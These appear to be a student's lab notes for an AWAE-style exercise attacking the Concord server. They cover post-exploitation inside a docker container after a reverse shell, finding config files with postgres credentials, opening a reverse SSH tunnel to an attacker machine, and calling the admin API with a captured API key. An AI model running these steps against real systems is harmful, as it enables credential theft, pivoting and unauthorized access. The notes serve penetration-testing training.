 We can remote mount the concord directories with:
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.43.0 /home/vagrant/Desktop/awae/concord/part-1/1.43
```
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.83.0 /home/vagrant/Desktop/awae/concord/part-1/1.83
```
Part 1 ExtraMile:  
Our reverse shell lands us in a docker container.  

We should promote the shell to a fully interactive tty.  
Python2.7 is installed on the container.  
We can find the concord.conf file with: 
```bash
find / -type f -name *.conf 2>/dev/null
```
The concord.conf file contains credentials to a posgres db.
In order to access the postgres port with our java client from our kali box we can do a reverse tunnel (from within the reverseshell):
```bash
ssh -N -R 5432:172.18.0.4:5432 tunnelboy@192.168.119.130 -o "StrictHostKeyChecking=no"
```
We can build our jdbc client with compile.ps1  

Searching the codebase:
```powershell
gci -Recurse -Filter "*.java" |  sls -Pattern salt | select line,path
```
concord documentation: https://web.archive.org/web/20201123223951/https://concord.walmartlabs.com/docs/api/secret.html
Api Token creation at: https://github.com/walmartlabs/concord/blob/master/server/liquibase-ext/src/main/java/com/walmartlabs/concord/server/liquibase/ext/ApiTokenCreator.java
Specific Location is ApiKeyDao.java

Interacting with api with admin auth key
iwr -Uri 'http://concord:8001/api/v1/apikey' -Headers @{ Authorization = "basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA"));ContentType= "application/json"}
curl -H "Authorization: basic KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA" -H "Content-Type: application/json"  http://concord:8001/api/v1/apikey